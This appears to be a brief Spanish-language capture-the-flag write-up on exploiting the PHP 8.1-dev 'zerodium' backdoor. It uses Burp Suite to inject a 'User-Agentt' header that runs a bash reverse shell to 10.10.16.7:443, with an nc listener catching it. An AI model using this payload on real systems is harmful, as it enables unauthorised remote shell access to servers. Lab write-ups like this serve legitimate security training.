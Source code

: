 #php810-dev 

# Intrusion Vulnerabilidad php 8.1-dev

Interceptamos la peticion con [[burpsuite]]

![[Knife4.png]]
Ahora vamos a añadir la linea que es vulnerable de User-Agentt: y le vamos a inyectar el one liner que casi siempre usamos para la [[Reverse shell]] 
```
User-Agentt: zerodiumsystem('bash -c "bash -i >& /dev/tcp/10.10.16.7/443 0>&1"');
```

Ahora mientras estamos en escucha con [[nc -nlvp 443]], mandamos la peticion
![[Knife5.png]]

Y listo ya estamos adentro de la maquina
![[Knife6.png]]
